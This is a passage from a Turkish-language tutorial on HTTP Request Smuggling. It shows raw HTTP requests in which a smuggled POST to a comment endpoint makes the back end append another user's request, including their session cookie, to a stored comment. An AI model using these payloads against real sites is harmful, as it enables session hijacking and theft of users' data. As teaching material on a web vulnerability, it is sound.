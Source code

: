           x=1

Ve ikinci isteğimizin sonucunda /admin dizinine ulaştık. Buradan sonra sizin hayal gücünüze kalmış.

NOT: Yeniden yazılan isteği görmek için gönderdiğimiz isteğin içerisindeki Content-Length, bize dönecek yanıtın büyüklüğünü gösterir. Eğer çok küçük bir sayı girersek, yanıtın bir kısmı görünmeyecek, dönecek yanıtın uzunluğundan büyük bir sayı girersek back-end sunucusu time out yaşayacaktır.

### Diğer Kullanıcıların İsteğini Yakalama

Eğer uygulamanın herhangi bir text verisi alma ve depolama işlevi varsa, HTTP Request Smuggling ile kullanıcı bilgileri çalınabilir. Bu bilgiler arasında; session, cookie, e-posta, şifre gibi siteye gönderilmeye çalışılan her şey olabilir.  

Bir siteye aşağıdakine benzer bir istek göndererek yorum atıldığını varsayalım.

          POST /post/comment HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 154
          Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

          csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net

Bu sitede aşağıdaki gibi bir istek ile kaçakçılık yapabiliriz.

          GET / HTTP/1.1
          Host: vulnerable-website.com
          Transfer-Encoding: chunked
          Content-Length: 324

          0

          POST /post/comment HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 400
          Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

          csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=fatih&email=mail%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=merhaba

Back-end, başka bir kullanıcının isteğini ne zaman işlerse, bizim kaçak isteğimizin sonuna kullanıcının isteğini ekler.

          POST /post/comment HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 400
          Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

          csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=fatih&email=mail%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=merhabaGET / HTTP/1.1
          Host: vulnerable-website.com
          Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
          ...
